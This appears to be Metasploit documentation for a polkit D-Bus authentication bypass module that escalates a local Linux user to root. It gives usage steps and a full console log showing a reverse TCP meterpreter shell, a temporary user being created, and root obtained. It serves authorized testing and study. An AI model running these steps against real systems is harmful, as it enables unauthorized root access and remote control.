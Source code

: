 ## Description

This module exploits a authentication bypass in Linux machines that make use of the polkit system service.
The vulnerability enables an unprivileged local user to get a root shell on the system.

## Vulnerable Application
This module has been tested successfully on:
    
* Ubuntu 20.04

### Installation And Setup

Download and install Ubuntu 20.04 from the Ubuntu Downloads page: https://ubuntu.com/download/desktop

## Verification Steps
1. Start msfconsole.
2. Get a session.
3. Do: `use exploit/linux/local/polkit_dbus_auth_bypass`.
4. Set the `SESSION` to the session obtained in step 2.
5. Set the `LHOST`, `LPORT` and `PAYLOAD` options as appropriate.
6. Do: `run`.
7. It is possible for the exploit to fail, increase the ITERATIONS module option to attempt the exploit more times before failing and run again.
8. Enjoy the shell.

## Options

**SESSION**
The session to run this module on.

**USERNAME**
The name of the user the exploit will add to the system

**PASSWORD**
The password for the user to be created

**WritableDir**
Directory to write file to (`%TEMP%` by default).

## Scenarios

### Tested on Ubuntu 20.04
```
msf6 > use multi/handler
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 192.168.123.146:49882) at 2021-06-25 17:54:45 -0400

meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use polkit_dbus
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/local/polkit_dbus_auth_bypass  2021-06-03       excellent  Yes    Polkit Authentication Bypass


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/local/polkit_dbus_auth_bypass

[*] Using exploit/linux/local/polkit_dbus_auth_bypass
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set lport 4443
lport => 4443
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set session 1
session => 1
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > run

[*] Started reverse TCP handler on 192.168.123.1:4443 
[*] Executing automatic check (disable AutoCheck to override)
[*] Checking for exploitability via attempt
[+] The target is vulnerable. The polkit framework instance is vulnerable.
[*] Attempting to create user msf
[+] User msf created with UID 1019
[*] Attempting to set the password of the newly create user, msf, to: NpJsQSti
[+] Obtained code execution has root!
[*] Writing '/tmp/vOWnn' (207 bytes) ...
[*] Sending stage (984904 bytes) to 192.168.123.146
[+] Deleted /tmp/vOWnn
[*] Meterpreter session 2 opened (192.168.123.1:4443 -> 192.168.123.146:42066) at 2021-06-25 17:55:27 -0400
[*] Attempting to remove the user added: 
[+] Successfully removed msf

meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.123.146
OS           : Ubuntu 20.04 (Linux 5.8.0-55-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
